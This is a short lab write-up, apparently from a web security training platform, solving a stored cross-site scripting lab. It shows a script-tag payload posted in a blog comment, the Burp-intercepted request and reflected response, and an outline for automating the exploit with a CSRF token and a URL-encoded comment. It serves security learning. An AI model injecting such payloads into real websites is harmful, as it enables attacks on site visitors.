 ### Lab: Stored XSS into HTML context with nothing encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

_____

Analysis and Exploit:

1. Inject a simple script in the comment field under a random post
    - ```<script>alert('XSS Vuln')</script>```

2. Intercept the request in **[BURP]**
    - GET **/post?postId=5**
    - ```<p><script>alert('XSS Vuln')</script></p>``` in the response

_____

Script:

1. Check if the number of arguments is correct
    - if not, print usage instructions
2. Send XSS payload | POST **/post/comment** | params: csrf, postId, comment, name, email, website
    - csrf : get_csrf from GET **/post?postId=5**
    - postId : 5
    - comment : '%3Cscript%3Ealert%28%27XSS+Vuln%27%29%3C%2Fscript%3E'
    - name : 'test'
    - email : 'test@test.test'
    - website: 'http://test'
3. Check if ```<p><script>alert('XSS Vuln')</script></p>``` is in the response
    - if not exploit failed